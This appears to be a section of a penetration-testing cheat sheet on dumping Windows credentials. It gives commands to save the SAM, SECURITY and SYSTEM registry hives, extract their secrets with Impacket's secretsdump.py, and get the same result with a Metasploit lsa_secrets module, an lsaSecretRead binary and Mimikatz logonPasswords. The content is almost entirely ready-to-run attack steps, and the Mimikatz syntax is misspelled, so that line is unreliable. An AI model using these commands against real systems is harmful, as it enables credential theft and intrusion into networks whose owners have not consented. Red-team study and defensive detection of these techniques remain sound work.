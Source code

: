 ### Additionally saving the Secrets file and SAM and using secretsdump.py to extract their content

- Saving registry keys of interest and using secretsdump.py on them from ***Impacket***
- `reg save HKLM\sam c:\temp\sam.save`
- `reg save HKLM\security c:\temp\security.save`
- `reg save HKLM\system c:\temp\system.save`
- Now that everything is saved, bring these files over to your kali machine and use secretsdump.py
- `secretsdump.py -sam /root/Desktop/sam.save -security /root/Desktop/security.save -system /root/Desktop/system.save`
- Alternatively there's a post exploitation module in **Metasploit**
- `run post/windows/gather/lsa_secrets`
- The same result can be achieved with the **[lsasecretread binary](https://github.com/linuxmuster/lsaSecrets/blob/master/bin/lsaSecretRead.exe)**
- **Mimikatz** `privilige::debug` and then `sekurlsa:logonPasswords`
